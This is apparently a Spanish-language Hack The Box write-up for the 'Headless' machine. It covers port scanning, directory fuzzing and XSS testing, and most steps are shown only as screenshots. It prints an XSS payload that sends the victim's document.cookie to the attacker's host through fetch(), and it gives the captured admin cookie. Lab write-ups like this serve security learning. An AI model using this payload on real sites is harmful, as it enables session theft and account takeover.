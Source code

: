 # HTB - HEADLESS

## Enumeración de puertos/servicios

``` bash 
sudo nmap -sCVT 10.10.11.8
```

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/cc1af630-4f2d-477d-b696-6a4e17f1ece6)

Podemos ver 2 puertos abiertos:
- 22 (SSH)
- 5000 (posiblemente una web)

Vamos a probar si funciona la ip con el puerto 5000.

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/850f9ad0-3187-4e0d-a5cc-1eabf2706e0f)


Efectivamente funciona la web, una vez tenemos acceso a ella lo primero que vamos a hacer es realizar un fuzzing en busca de directorios:

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/d4766bf4-277e-4c2b-a129-c646d98be7d6)


## Detección de vulnerabilidades


![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/241dc6dd-04dd-4d20-891a-94850e1c1e4e)


![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/33cdc751-0bcf-4ee8-b42f-ab14de7a8d6c)



``` javascript
<script>alert(‘XSS’)</script>
```



Después de probar con algunos xss decido probar por otro lado a ver si funciona.

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/2f294528-ef0f-4640-9183-55b033e60dd9)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/b67c57b8-9bb9-4491-9385-a25d1fafbc15)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/f69baa5f-7213-4eb9-b143-225fbb06289b)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/7e6235d8-677f-46ee-baee-f669a02da363)

``` javascript
<img src=x onerror=fetch('http://10.10.14.168/?cpplie='+document.cookie);>
```

cookie: "ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0"

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/9f4cb784-9d61-481b-928a-ddba6b524c6b)

<img width="284" alt="image" src="https://github.com/0111100/HTB-HEADLESS/assets/96475451/a8052521-7db3-4894-8342-b01049d930a4">

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/b68edf39-9e86-499a-8c37-2eca9830b174)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/75378874-c1d1-4c2b-bbcd-beef2b1602d0)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/73428c24-ed07-4899-bb0e-a78eb2c43f3b)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/ad2d1ffb-445b-42df-a178-6521a399b907)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/ef519537-4488-459c-ab50-e8887d954826)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/1db49c30-e4b8-4324-a3a6-919e955efb91)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/2b547132-09ac-47f5-8799-bbdc674e991d)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/ea9720f4-2e2c-44a7-857f-2fad1f1b0ab7)
